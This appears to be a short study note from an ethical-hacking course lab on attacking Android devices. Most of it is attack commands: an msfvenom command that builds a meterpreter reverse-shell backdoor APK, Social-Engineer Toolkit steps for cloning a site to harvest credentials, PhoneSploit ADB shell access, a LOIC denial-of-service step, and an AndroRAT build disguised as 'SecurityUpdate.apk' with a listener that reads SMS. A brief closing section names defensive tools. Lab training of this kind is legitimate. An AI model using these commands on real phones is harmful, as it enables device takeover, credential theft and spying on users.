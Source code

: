 # Hacking Mobile Platform

## Hack android devices

- Hack an Android device by creating binary payloads using Parrot Security
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R >Desktop/Backdoor.apk

- Harvest users’ credentials using the Social-Engineer Toolkit
setoolkit
1 - Social-Engineering Attacks
2 - Website Attack Vectors
3 - Credential Harvester Attack Method
2 - Site cloner

- Launch a DoS attack on a target machine using Low Orbit Ion Cannon (LOIC) on the Android mobile platform  
    android app

- Exploit the Android platform through ADB using PhoneSploit
python3 phonesploit.py
3 - connect a new phone
4 - access shell on a phone
7 - screen shot a picture on a phone

- Hack an Android device by creating APK file using AndroRAT
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
python3 androRAT.py --shell -i 0.0.0.0 -p 4444

getSMS
getMACAddress

## Secure Android Devices using Various Android Security Tools

- Analyze a malicious app using online Android analyzers
<https://www.sisik.eu/apk-tool>

- Secure Android devices from malicious apps using Malwarebytes Security
andorid app

